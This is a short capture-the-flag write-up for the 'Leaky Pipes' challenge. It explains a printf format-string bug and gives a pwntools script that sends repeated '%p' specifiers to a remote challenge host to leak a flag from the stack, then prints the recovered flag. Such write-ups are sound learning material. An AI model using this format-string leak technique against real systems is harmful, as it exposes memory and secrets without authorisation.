 # Leaky Pipes

## Analysis
We notice that the binary is using a vulnerable call of `printf`.
```
└─$ ./leaky_pipes
Tell me your secret so I can reveal mine ;) >> %p
Here's your secret.. I ain't telling mine :p
0xffd0f440
```

## Solution
We send a big payload of format specifiers to leak the flag, which is stored on the stack, and leak it.At the time of the competition I did this manually but here's a small pwntools script to do the same.
```python
from pwn import *
from Crypto.Util.number import long_to_bytes

p = remote("34.125.199.248", 1337)

p.sendline(b"%p"*50)

data = p.recvall().split(b"0x")[35:43]

print("".join(list(map(lambda x: long_to_bytes(int(x, 16))[::-1].decode(), data)))+'}')
```

## Flag
```
OSCTF{F0rm4t_5tr1ngs_l3ak4g3_l0l}
```
